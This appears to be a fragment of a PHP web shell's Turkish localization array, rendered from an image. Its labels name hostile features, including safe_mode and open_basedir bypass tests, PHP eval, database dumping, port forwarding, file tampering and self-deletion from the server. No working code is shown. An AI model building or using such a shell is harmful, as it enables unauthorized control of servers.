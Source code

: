 'tur_text21'=&gt;'&nbsp;yeni isim ver abi',
'tur_text22'=&gt;'datapipe',
'tur_text23'=&gt;'Local port',
'tur_text24'=&gt;'Remote host',
'tur_text25'=&gt;'Remote port',
'tur_text26'=&gt;'Kullan',
'tur_butt5' =&gt;'Calistir',
'tur_text28'=&gt;'Su anki durum safe_mode',
'tur_text29'=&gt;'ACCESS DENIED',
'tur_butt6' =&gt;'d&#252;zenle bilader',
'tur_text30'=&gt;'Cat file',
'tur_butt7' =&gt;'bakabilirmiyim abi',
'tur_text31'=&gt;'&#246;yle bi dosya yok bilader',
'tur_text32'=&gt;'Eval PHP code',
'tur_text33'=&gt;'Test bypass open_basedir with cURL functions',
'tur_butt8' =&gt;'Test',
'tur_text34'=&gt;'Test bypass safe_mode with include function',
'tur_text35'=&gt;'Test bypass safe_mode with load file in mysql',
'tur_text36'=&gt;'Database . Tablo',
'tur_text37'=&gt;'Giris',
'tur_text38'=&gt;'Sifre',
'tur_text39'=&gt;'Database',
'tur_text40'=&gt;'Bosaltilacak database tablosu',
'tur_butt9' =&gt;'Bosalt',
'tur_text41'=&gt;'Bosaltilan dosyayi kaydet',
'tur_text42'=&gt;'Dosyalari duzenle',
'tur_text43'=&gt;'Dosya duzenle',
'tur_butt10'=&gt;'taam basabiliriz :)',
'tur_text44'=&gt;'malesef gulum! sansina kus!',
'tur_text45'=&gt;'taam bilader kaydettim',
'tur_text46'=&gt;'Goster phpinfo()',
'tur_text47'=&gt;'Degiskenleri goster php.ini',
'tur_text48'=&gt;'Temp doslarini sil',
'tur_butt11'=&gt;'duzenle abi',
'tur_text49'=&gt;'Serverdan script sil',
'tur_text50'=&gt;'Islemci bilgisine bak',
'tur_text51'=&gt;'Haf?za bilgisine bak',
'tur_text52'=&gt;'Metin ara',
'tur_text53'=&gt;'In dirs',
'tur_text54'=&gt;'Dosyalarin icinde metin ara',
'tur_butt12'=&gt;'Ara',
'tur_text55'=&gt;'Dosyalarda',
'tur_text56'=&gt;'Hicbirsey :(',
'tur_text57'=&gt;'Yarat/Dosya sil/Dir',
'tur_text58'=&gt;'isim',
'tur_text59'=&gt;'dosya',
'tur_text60'=&gt;'dir',
'tur_butt13'=&gt;'Yarat/Sil',
'tur_text61'=&gt;'Dosya yaratildi',
'tur_text62'=&gt;'Dir created',
'tur_text63'=&gt;'Dosya silindi',
'tur_text64'=&gt;'Dir deleted',
'tur_text65'=&gt;'Yarat',
'tur_text66'=&gt;'Sil',
'tur_text67'=&gt;'Chown/Chgrp/Chmod',
'tur_text68'=&gt;'Komut',
'tur_text69'=&gt;'param1',
'tur_text70'=&gt;'param2',
'tur_text71'=&gt;"Second commands param is:\r\n- for CHOWN - name of new owner or UID\r\n- for CHGRP - group name or GID\r\n- for CHMOD - 0777, 0755...",
'tur_text72'=&gt;'Metin icin ara',
'tur_text73'=&gt;'Klasor icin ara',
'tur_text74'=&gt;'Dosyalarin icinde ara',
'tur_text75'=&gt;'* you can use regexp',